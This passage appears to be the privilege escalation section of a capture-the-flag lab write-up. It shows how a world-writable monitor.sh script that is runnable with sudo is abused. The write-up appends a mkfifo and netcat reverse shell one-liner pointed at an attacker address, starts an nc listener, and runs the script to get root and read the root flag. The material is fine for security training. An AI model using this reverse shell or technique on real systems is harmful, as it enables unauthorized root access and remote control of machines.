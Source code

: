 # Privilege escalation

As `monitor.sh` is world-writable, we can append a reverse shell one-liner to the end of `monitor.sh` file and, when we run it, we will have a reverse shell as root.

We will append a bash one-liner at the end of `monitor.sh`:

```
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1235 >/tmp/f' | tee -a monitor.sh
```

We open a new necat listener on our host (attacker):

```
$ nc -lvnp 1235
```

And we execute the `monitor.sh` script as sudo in the target (victim) host:

```
$ sudo /home/nibbler/personal/stuff/monitor.sh
```

Now, we are root and we can get the root flag stored in `/root/root.txt`

*Enjoy! ;)*
